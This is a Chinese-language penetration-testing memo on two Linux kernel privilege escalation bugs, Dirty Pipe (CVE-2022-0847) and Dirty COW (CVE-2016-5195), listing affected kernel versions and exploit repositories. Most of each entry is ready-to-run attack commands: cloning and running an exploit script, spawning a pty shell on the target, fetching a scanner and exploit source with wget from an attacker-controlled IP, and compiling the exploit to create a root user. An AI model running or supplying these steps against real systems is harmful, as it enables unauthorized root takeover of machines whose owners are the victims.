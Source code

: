 # 内核漏洞-备忘录

## CVE-2022-0847

* 漏洞说明
  * CVE-2022-0847-DirtyPipe-Exploit CVE-2022-0847 是存在于 Linux内核 5.8 及之后版本中的本地提权漏洞。攻击者通过利用此漏洞，可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。 CVE-2022-0847 的漏洞原理类似于 CVE-2016-5195 脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”
* 影响范围
  * 5.8 <= Linux 内核版本 < 5.16.11 / 5.15.25 / 5.10.102
* 工具地址：https://github.com/imfiver/CVE-2022-0847
*   使用方法

    ```bash
    git clone https://github.com/imfiver/CVE-2022-0847.git
    cd CVE-2022-0847
    chmod +x Dirty-Pipe.sh
    bash Dirty-Pipe.sh
    ```

    <img src="../../linux-ti-quan/img/CVE-2022-0847.png" alt="image" data-size="original">

## CVE-2016-5195-脏牛(Dirty COW)提权

* 漏洞说明
  * Linux内核的内存子系统在处理写入复制（copy-on-write, COW）时产生了竞争条件（race condition）。恶意用户可利用此漏洞，来获取高权限，对只读内存映射进行写访问。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。
* 影响版本
  * Linux内核>=2.6.22
* 扫描是否存在脏牛漏洞脚本scan-dirtycow.sh
  * https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

```bash
python -m SimpleHTTPServer # kali

# 目标
python -c "import pty;pty.spawn('/bin/bash')"
cd /tmp
wget http://10.30.0.81:8080/dirtycowscan.sh
chmod +x dirtycowscan.sh
./dirtycowscan.sh
```

```
exp：dirty.c
- https://www.exploit-db.com/raw/40839

wget http://10.30.0.81:8080/dirty.c
chmod 777 dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty testpasswd
su firefart
testpasswd
```
